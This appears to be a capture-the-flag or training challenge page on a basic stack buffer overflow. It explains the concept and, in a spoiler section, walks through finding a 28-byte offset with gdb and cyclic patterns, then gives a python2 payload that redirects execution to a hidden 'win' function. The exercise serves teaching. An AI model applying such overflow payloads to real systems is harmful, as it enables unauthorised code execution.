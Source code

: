 <h2>Description</h2>
<p>Buffers are memory storage regions that temporarily hold data while it is being transferred from one location to another. A buffer overflow occurs when the volume of data exceeds the storage capacity of the memory buffer. As a result, the program attempting to write the data to the buffer overwrites adjacent memory locations.</p>

<h2>Goal</h2>
<p>Successfully display what is in the win function, normally inaccessible.</p>

<h2>Solution</h2>
<details>
    <summary>Spoilers! (click to expand)</summary>
    <p>* Check the security of the binary with checksec --file binary1</p>
    <p>* Try to overflow the buffer of binary1</p>
    <p>* Debug with gdb</p>
    <p>* Cyclic 100 in binary input</p>
    <p>* Binary crash with EIP 'haaa' (register for next instruction to execute)</p>
    <p>* Cyclic -l haaa --> 28</p>
    <p>* So we send 28 characters before sending the address of our hidden function</p>
    <p>* Info functions (in gdb) to get the address of the win function (0x080491d6)</p>
    <p>* python2 -c 'print "A" * 28 + "\xd6\x91\x04\x08"' [PAYLOAD]</p>
</details>
